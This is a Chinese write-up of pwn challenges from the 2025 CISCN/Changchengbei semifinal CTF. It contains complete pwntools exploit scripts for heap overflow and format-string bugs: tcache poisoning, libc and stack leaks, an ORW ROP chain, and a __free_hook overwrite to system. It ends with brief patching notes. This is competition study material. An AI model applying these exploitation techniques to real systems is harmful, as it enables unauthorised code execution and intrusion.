# 2025ciscn&长城杯 半决-pwn 部分解析-先知社区

> **来源**: https://xz.aliyun.com/news/17409  
> **文章ID**: 17409

---

## break

prompt protobuf堆溢出

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *

env = os.environ.copy()  # 复制当前环境变量
env["LD_PRELOAD"] = "./libm.so.6"  # 添加 LD_PRELOAD
#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)
import pwn2_pb2

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./pwn"
mx = process(filename)
#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\
def add(size,text=b'123',idx=0):
    rl('Your prompt >> ')
    data = pwn2_pb2.pwn2()
    data.option = 1;
    data.chunk_sizes = size
    data.heap_chunks_id = idx
    data.heap_content = text
    raw = data.SerializeToString()
    print(hexdump(raw))

    pay = p32(len(raw)) + raw
    s(pay)
def rm(idx,size=0,text=b'123'):
    rl('Your prompt >> ')
    data = pwn2_pb2.pwn2()
    data.option = 2;
    data.chunk_sizes = size
    data.heap_chunks_id = idx
    data.heap_content = text
    raw = data.SerializeToString()
    print(hexdump(raw))
    pay = p32(len(raw)) + raw
    s(pay)
def edit(idx,size=0,text=b'123'):
    rl('Your prompt >> ')
    data = pwn2_pb2.pwn2()
    data.option = 3;
    data.chunk_sizes = size
    data.heap_chunks_id = idx
    data.heap_content = text
    raw = data.SerializeToString()
    print(hexdump(raw))
    pay = p32(len(raw)) + raw
    s(pay)
def show(idx,size=0,text=b'123'):
    rl('Your prompt >> ')
    data = pwn2_pb2.pwn2()
    data.option = 4;
    data.chunk_sizes = 1
    data.heap_chunks_id = idx
    data.heap_content = text
    raw = data.SerializeToString()
    print(hexdump(raw))
    pay = p32(len(raw)) + raw
    s(pay)
dbg()
add(0x100, b'flag')
add(0x100, b'1')
add(0x100, b'2')
add(0x100, b'3')
add(0x100, b'4')
add(0x100, b'5')
add(0x100, b'6')
add(0x100, b'7')

pay = b'A' * 0x108 + p64(0x110 * 4 +1)
edit(1,len(pay),pay)
rm(2)

add(0x100, b'8')
 
show(3)
libc_addr=l64()-0x203b20
log_addr(libc_addr)
libc.address=libc_addr
environ_addr=libc.sym['environ']-0x108
add(0x100, b'8')
rm(8)


show(3)
rl(': ')
key = uu64(mx.recv(5))
heap_base = key << 0xC
log_addr(heap_base)
rm(2)
pay = b'A' * 0x108 + p64(0x111)

pay += p64(key ^ environ_addr)
edit(1,len(pay),pay)
add(0x100, b'7')


add(0x100,b'flag')

edit(8,0x108,b'a'*0x108)
show(8)
rl(b'a'*0x108)
stack_addr=h64()
log_addr(stack_addr)
target_addr=stack_addr-0x188
rm(7)
pay = b'A' * 0x108 + p64(0x111)+p64(key ^ target_addr)
edit(6,len(pay),pay)
add(0x100,b'a')

pop_rdi=0x000000000010f75b+libc_addr
pop_rsi=0x0000000000110a4d+libc_addr
pop_rdx=0x00000000000b0133+libc_addr #mov rdx rbx pop rbx pop r12 pop rbp
pop_rbx=0x00000000000586e4+libc_addr
open_addr=libc.sym['open']
read_addr=libc.sym['read']
write_addr=libc.sym['write']
mprotect_addr=libc.sym['mprotect']
flag_addr=heap_base+0x5e0
orw=b''
orw+=p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(open_addr)
orw+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rbx)+p64(0x30)+p64(pop_rdx)+p64(0)*3+p64(read_addr)
orw+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rbx)+p64(0x30)+p64(pop_rdx)+p64(0)*3+p64(write_addr)
pause()
add(0x100,b'a'*8+orw)
inter()
```

### typo

### 静态分析



一个堆题 libc是2.31版本 有add delete edit 这三个功能点

这里add delete都没有漏洞 漏洞点在edit 存在一个溢出漏洞



这里重点在snprintf 这个是 进行截断的 但是存在格式化字符串snprintf，一些参数可以用格式化字符串绕过，可以用格式化字符串漏洞来填补需要传递的参数 而由于这里是 进行的截断 我们就可以通过read去覆盖 然后利用snprintf 导致溢出漏洞，而后面的read 则是用\*(unk\_4060+int(v1))也就是存储size的位置 在堆块上 我们有溢出漏洞之后就可以覆盖size了 直接利用这个size 就可以去走read 就可以在覆盖地址的时候绕过 然后关注到这里没有show函数，我们通过合并堆块 使得tcache和unsorted bin 堆块在同一个 然后利用溢出去爆破 \_IO\_2\_1\_stdout 然后就可以泄露libc 再次用同样的方法 溢出修改tcache的fd 改free\_hook为system

### 动态调试

初始堆块布局



合并堆块



free后再申请 使得堆块重叠



爆破\_IO\_2\_1\_stdout-8



泄露libc



然后同样的溢出思路 去修改fd为free\_hook-8



然后还要溢出修改一个/bin/sh即可



### EXP如下（本地）

```
#!/usr/bin/python3
from pwn import*
context.update(arch='amd64',os='linux',log_level='debug')
mx = process('./pwn')
elf=ELF('./pwn')
libc=elf.libc
#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)
def myencode(payload):
    return payload.replace(b'\x00',b'%39$c')+b'\x00'
 
def add(idx,size):
    mx.sendlineafter(">> ",'1')
    mx.sendlineafter("dex",str(idx))
    mx.sendlineafter("Size: ",str(size))
 
def delete(idx):
    mx.sendlineafter(">> ",'2')
    mx.sendlineafter("dex",str(idx))
 
def edit(idx,payload,data):
    mx.sendlineafter(">> ","3")
    mx.sendlineafter("dex",str(idx))
    mx.sendlineafter("size of",payload)
    mx.sendafter("say",data)
dbg()

for i in range(10):
    if i==2:
        add(i,0x90)
        continue
    if i==6:
        add(i,0x90)
        continue
    add(i,0x80)
    

add(10,0x80)
payload=p64(0x80)
payload=payload.ljust(0x88,b'a')
payload+=p64(0x4a1)
payload+=p64(0x490)
edit(0,myencode(payload),b'a')
delete(6)
delete(2)

delete(1)

add(1,0x80)
payload=p64(0x80)
payload=payload.ljust(0x88,b'a')
payload+=p64(0x91)
payload+=p64(0xa0)
edit(0,myencode(payload),b'a')
payload=b'a'*0x80+p64(0x401)+b'\x98'+b'\x26'
edit(1,str(9999),payload)
add(6,0x90)
add(2,0x90)
payload=p64(0xfbad1800)+p64(0)*3+b'\x00'
edit(2,str(9999),payload)
rl(b'\x00'*8)
libc_addr=h64()-0x1ec980
log_addr(libc_addr)
libc.address=libc_addr
system=libc.sym['system']
free_hook=libc.sym['__free_hook']
ordinal=libc_addr+0x1ecfd0
payload=b'a'*0x80+p64(0x401)+p64(ordinal)*2
edit(1,str(9999),payload)
delete(7)
delete(5)
payload=p64(0x80)
payload=payload.ljust(0x88,b'a')
payload+=p64(0x91)
payload+=p64(0xa0)
pause()
edit(3,myencode(payload),b'a')
payload=b'a'*0x80+p64(0x91)+p64(free_hook-0x8)*2
edit(4,str(9999),payload)
add(5,0x80)
add(7,0x80)
paylaod=b'a'*0x80+p64(0x91)+b'/bin/sh\x00'
edit(4,str(9999),paylaod)
edit(7,str(9999),p64(system)*4)
delete(5)
inter()
```

### EXP(爆破)

```
#!/usr/bin/python3
from pwn import*
context.update(arch='amd64',os='linux',log_level='debug')
mx = process('./pwn')
elf=ELF('./pwn')
libc=elf.libc
#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)
def myencode(payload):
    return payload.replace(b'\x00',b'%39$c')+b'\x00'
 
def add(idx,size):
    mx.sendlineafter(">> ",'1')
    mx.sendlineafter("dex",str(idx))
    mx.sendlineafter("Size: ",str(size))
 
def delete(idx):
    mx.sendlineafter(">> ",'2')
    mx.sendlineafter("dex",str(idx))
 
def edit(idx,payload,data):
    mx.sendlineafter(">> ","3")
    mx.sendlineafter("dex",str(idx))
    mx.sendlineafter("size of",payload)
    mx.sendafter("say",data)

def exp():
    for i in range(10):
        if i==2:
            add(i,0x90)
            continue
        if i==6:
            add(i,0x90)
            continue
        add(i,0x80)
        

    add(10,0x80)
    payload=p64(0x80)
    payload=payload.ljust(0x88,b'a')
    payload+=p64(0x4a1)
    payload+=p64(0x490)
    edit(0,myencode(payload),b'a')
    delete(6)
    delete(2)

    delete(1)

    add(1,0x80)
    payload=p64(0x80)
    payload=payload.ljust(0x88,b'a')
    payload+=p64(0x91)
    payload+=p64(0xa0)
    edit(0,myencode(payload),b'a')
    payload=b'a'*0x80+p64(0x401)+b'\x98'+b'\x26'
    edit(1,str(9999),payload)
    add(6,0x90)
    add(2,0x90)
    payload=p64(0xfbad1800)+p64(0)*3+b'\x00'
    edit(2,str(9999),payload)
    rl(b'\x00'*8)
    libc_addr=h64()-0x1ec980
    log_addr(libc_addr)
    libc.address=libc_addr
    system=libc.sym['system']
    free_hook=libc.sym['__free_hook']
    ordinal=libc_addr+0x1ecfd0
    payload=b'a'*0x80+p64(0x401)+p64(ordinal)*2
    edit(1,str(9999),payload)
    delete(7)
    delete(5)
    payload=p64(0x80)
    payload=payload.ljust(0x88,b'a')
    payload+=p64(0x91)
    payload+=p64(0xa0)
    pause()
    edit(3,myencode(payload),b'a')
    payload=b'a'*0x80+p64(0x91)+p64(free_hook-0x8)*2
    edit(4,str(9999),payload)
    add(5,0x80)
    add(7,0x80)
    paylaod=b'a'*0x80+p64(0x91)+b'/bin/sh\x00'
    edit(4,str(9999),paylaod)
    edit(7,str(9999),p64(system)*4)
    delete(5)
    inter()
while(1):
    try:
        debug=1
        if debug:
            p=process('./pwn')
            sleep(0.5)
        else:
            mx=remote('ip','port')
        exp()
    except:
        mx.close()
```

## 防御

### typo



我是照着漏洞原理去改的 把read读入改为了0x10字节 但是没过check 显示exp利用成功 后来在这个基础上又改了snprintf 好像防御过头了 最后都用完了也没fix出来 这里也不知道为什么www 是还有其他攻击思路吗

### Prompt



我直接nop call rdx 就过了 感觉像非预期思路

正常应该是限制large bin的size 和nop free那块位置

### quantum





就可以过check了

### web-pwn

没怎么学过php pwn 这个就直接没看
